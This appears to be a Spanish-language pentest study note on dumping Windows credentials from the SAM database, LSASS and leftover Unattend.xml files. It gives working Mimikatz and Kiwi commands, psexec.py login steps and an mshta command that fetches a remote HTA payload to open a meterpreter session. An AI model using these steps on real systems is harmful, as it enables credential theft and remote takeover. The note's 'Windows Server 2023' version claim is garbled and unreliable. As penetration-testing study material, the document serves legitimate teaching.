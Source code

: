 30-03-2025 18:56
Status: #idea
Tags: [[Windows Credential Dumping]]

- [[#SAM Database|SAM Database]]
- [[#Buscando contraseñas en ficheros de configuración|Buscando contraseñas en ficheros de configuración]]
- [[#Herramientas|Herramientas]]
	- [[#Herramientas#Mimikatz|Mimikatz]]
		- [[#Mimikatz#Ejecutable|Ejecutable]]
		- [[#Mimikatz#Módulo Kiwi en metasploit|Módulo Kiwi en metasploit]]

# Windows Password Hashes

Windows guarda las hashes de las cuentas de usuarios localmente en la base de datos del SAM (Security Accounts Manager).

La autenticación y verificación de las credenciales de usuario son facilitadas por el Local Security Authority (LSA).

Las versiones de Windows mayores que Windows Server 2023, utilizan dos tipos de hashes: **LM y NTLM**. A partir de Windows Vista, se han desactivado las LM y solo se utiliza el NTLM hashing.

## SAM Database

Como hemos dicho anteriormente, las contraseñas hasheadas de todos los usuarios se guardan en esta base de datos.

Esta base de datos se puede copiar mientras el sistema operativo está funcionando.

El kernel mantiene bloqueada esta base de datos, por lo tanto los atacantes normalmente utilizan técnicas de memoria y herramientas para hacer dump desde el proceso LSASS.

En versiones recientes de Windows, la base de datos SAM está encriptada con una syskey.


> [!TIP] Privilegios y LSASS
> Para poder interactuar con el proceso de lsass necesitaremos permisos elevados o de administrador.


## Buscando contraseñas en ficheros de configuración

Windows permite automatizar tareas repetitivas, como la configuración e instalación de Windows en varios sistemas.

Esto normalmente se consigue con la utilidad "Unattended Windows Setup", que nos permite automatizar la instalación masiva de sistemas Windows.

Esta herramienta utiliza ficheros de configuración que contiene configuraciones específicas, y credenciales de cuentas válidas, especialmente, la contraseña de la cuenta Administrator.

Si estos ficheros se dejan en el sistema después de la instalación, podrán revelar credenciales de usuarios que podrían ser utilizadas por atacantes para autenticarse en el sistema.

Los directorios de estos ficheros son:

- **C:\Windows\Panther\Unattend.xml
- **C:\Windows\Panther\Autounattend.xml**

Estas contraseñas pueden estar presentes con encoding base64.

Para conseguir este fichero en nuestro sistema objetivo, tendríamos que tener acceso a el, ya sea con una sesión de meterpreter o a través de otros exploits.

Si tenemos una sesión de meterpreter, podremos descargar el fichero con el comando download:

```shell
download C:\Windows\Panther\Unattend.xml
```

Una vez tengamos el fichero, podremos hacer un cat y buscar las contraseñas, sobre todo del usuario de administración. Veremos que es una string en base64. Si la metemos en un fichero txt, por ejemplo password.txt, podremos usar la utilidad base64 que ya viene en kali directamente:

```shell
base64 -d password.txt
```

Y esto nos dará la contraseña. Puede que no sea válida, pero podremos probarla con psexec.py:

```shell
psexec.py Administrator@10.10.10.10
```

Si todo sale bien, deberíamos ser NT AUTHORITY\SYSTEM.

## Herramientas

Utilidades que podremos usar serán [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1), que nos permitirá ver si existen estos ficheros, ya que es un script que se encarga de ejecutar un audit.

Si queremos ejecutar un cmd como administrador en Windows podremos usar el comando: 

```powershell
runas.exe /user:administrator cmd
```

Si queremos ejecutar una payload desde el cmd de privilegios elevados podemos usar el exploit [**hta_server**](https://www.rapid7.com/db/modules/exploit/windows/misc/hta_server/), que nos proporcionará una url que podremos acceder desde nuestro powershell para conseguir una sesión de meterpreter.

Después desde nuestro powershell ejecutaremos:

```powershell
mshta.exe http://10.10.49.4:8080/Tomvj9c.hta
```

### Mimikatz

Mimikatz es una herramienta para la post-explotación que nos permite extraer contraseñas clear-text.

Lo que hace es extraer hashes del proceso lsass.exe, que es donde se cachean estas.

Podemos ejecutar su ejecutable, o si tenemos una sesión de meterpreter, utilizar el módulo Kiwi.

#### Ejecutable

En Kali tenemos el ejecutable de Mimikatz ya instalado. Se encuentra en la ruta **usr/share/windows-resources/mimikatz/x64/mimikatz.exe**.  

Si tenemos una sesión de meterpreter, podremos subirlo con el comando upload en la carpeta **Temp**, y posteriormente, invocar una shell para ejecutarlo.

```terminal
shell

.\mimikatz.exe
```

Comprobaremos que tenemos los permisos suficientes con este comando:

```terminal
privilege::debug
```

Si nos devuelve un **Privilege '20' OK**, nos está indicando que tenemos suficientes privilegios para hacer el dumping.

Esto lo podremos hacer con el comando:

```terminal
lsadump::sam
lsadump::secrets
```

En este caso, el ejecutable nos da más información de la que nos proporcionará Kiwi.

También podemos probar suerte y ver si nos devuelve contraseñas en texto plano:

```terminal
sekurlsa::logonpasswords
```

#### Módulo Kiwi en metasploit

Para cargar el módulo tendremos que hacer: 

```terminal
load kiwi
```

Y posteriormente, se pueden usar varios comandos para conseguir dumpear las hashes, pero entre ellos está:

```terminal
creds_all
```

También podremos usar **lsa_dump_sam** para volcar la base de datos SAM, como vimos anteriormente: 

```terminal
// Vuelca la base de datos SAM
lsa_dump_sam

// Vuelca secretos, donde a veces se pueden encontrar datos interesantes
lsa_dump_secrets
```





---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
